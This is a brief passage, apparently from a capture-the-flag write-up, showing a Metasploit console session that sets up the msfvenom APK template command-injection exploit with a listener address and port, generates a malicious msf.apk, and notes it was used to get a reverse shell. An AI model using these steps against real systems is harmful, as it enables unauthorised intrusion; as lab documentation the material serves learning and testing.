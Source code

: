 ```bash

Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set LHOST 10.10.14.9
LHOST => 10.10.14.9
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set LPORT 9001
LPORT => 9001
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > run

[+] msf.apk stored at /root/.msf4/local/msf.apk
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > exit
```

Then I used the outputted `msf.apk` file to get a shell.